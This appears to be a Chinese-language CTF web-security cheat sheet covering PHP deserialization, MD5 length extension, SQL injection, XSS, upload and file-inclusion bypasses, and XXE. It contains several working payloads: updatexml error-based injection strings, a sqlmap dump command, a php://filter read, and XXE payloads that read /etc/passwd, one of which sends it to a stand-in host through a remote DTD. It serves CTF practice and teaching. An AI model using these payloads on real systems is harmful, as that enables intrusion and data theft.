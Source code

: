 <h1><center>web安全</center></h1>

### 一.隐藏信息
1. 源代码隐藏关键信息
2. 请求和响应头隐藏关键信息

### 二.代码审计

1.1php漏洞

1.1.1 序列化与反序列化

（1）序列化

序列化就是把一个对象（非类）存成一个字符串，要用时再反序列释放出它。
注意序列化只会包含对象的变量，不会包含函数。而且序列化对象后面的字符串不会再反序列化时解析（md5扩展长度攻击时可用）

（2）session序列化

（3）序列化漏洞

当序列化字符串中，表示对象属性个数的值大于实际个数时，在反序列化后就会跳过wakeup方法的执行



1.2 md5扩展长度攻击

介绍：

题目不告诉你key,但提供了data以及md5(key.data)的值

让你求md5(key.data.others)的值



工具：

- HashPump（linux工具），使用方法：hashpump -s [SIGNATURE] -d [DATA] -k [KEY_LENGTH] -a [DATA_ADD]

  通常DATA_ADD可随意指定。



- hashpumpy库(python)





1.3 本地JS代码审计


1.4 修改请求头
Referef:
X-Forwarded-For:
User-Agent:
Accept-Language:

### 三.目录扫描
1. 敏感文件扫描
工具：[dirsearch](https://github.com/maurosoria/dirsearch),御剑

2. git泄露
工具：[GitHack](https://github.com/lijiejie/GitHack),

3. vim泄露
.swp文件

~文件

通过
```
vim -r 交换文件还原
```

### 四.sql注入

sqlmap -u {url} --batch -v {number} --level {number} --dump

1. 基于查询类型划分

    1.1. 数字型注入

    1.2. 字符型注入

2. 基于注入类型划分：

    2.1. union注入

    2.2. 报错注入

    concat(0x3e,(),0x3e)

    updatexml(0x3e,(),0x3e)

    updatexml(0x3e,(concat(0x3e,(sql),0x3e)),0x3e)

    2.3. 盲注

        2.3.1. 布尔盲注
    
        2.3.2. 时间盲注

3. 基于字段划分:

    3.1. get,post参数

    3.2. XFF

    3.3. cookie

    3.4. 基于数据库划分

        3.4.1. mysql
    
        3.4.2. sqlite
    
        3.4.3. access

    3.4.绕过方法
        3.4.1. 空格

        3.4.2. 引号
    
        3.4.3. 注释
         1. 可以用引号连接后面的引号代替注释,and ''=',and '1'='1
         2. %23代替#
         3. --+
         4. /*    */(比较特殊，一般用在双关键字查询)
    
        3.4.4. 关键字
         1. 外重写,select->seleselectct
         2. 内联注释,\/\*!\*\/
    
        3.4.5. 常用函数

### 五.XSS
1. 存储型XSS

2. 反射型XSS

3. DOM型XSS

### 六.文件上传和文件解析
文件上传：
- 本地js
- filename文件后缀名
- Content-Type文件类型
- filename+Content-Type绕过
- 文件内容绕过 图片马，声音马

文件解析


### 八.文件包含
题眼：
page=
file=
action=

主要函数：
include()
require()
file_get_contents()

主要姿势：
php://input 标准输入，post中带输入内容
php://filter/read=convert.base64-encode/resource=文件名   标准输出，输出指定文件内容。
../../ 目录穿越


1. 本地文件包含
引用的是服务器上的文件

2. 远程文件包含
引用的是非服务器上的文件，一般默认关闭


### 九.XXE
XML外部实体注入，当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行，内网端口探测、攻击内网网站等目的。


必备条件：
Content-Type: application/xml
post请求中传入poc

一般poc:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo[ 
<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<foo>&f;</foo>
```


远程DTD
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://xxx.com/xxe_file.dtd">
<data>&xxe;<data>
```
http://xxx.com/xxe_file.dtd:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "><!ENTITY xxe SYSTEM 'http://xxx.com/?%file;'>">
%all
```
引用自https://www.freebuf.com/articles/web/177979.html

### 十.命令执行
经常flag就在同级目录下面的文件名或者文件中。可以通过ls,cat等命令查看。
或者利用语言所带的查看文件内容和查看目录下文件查看。


### 十一.远程代码执行



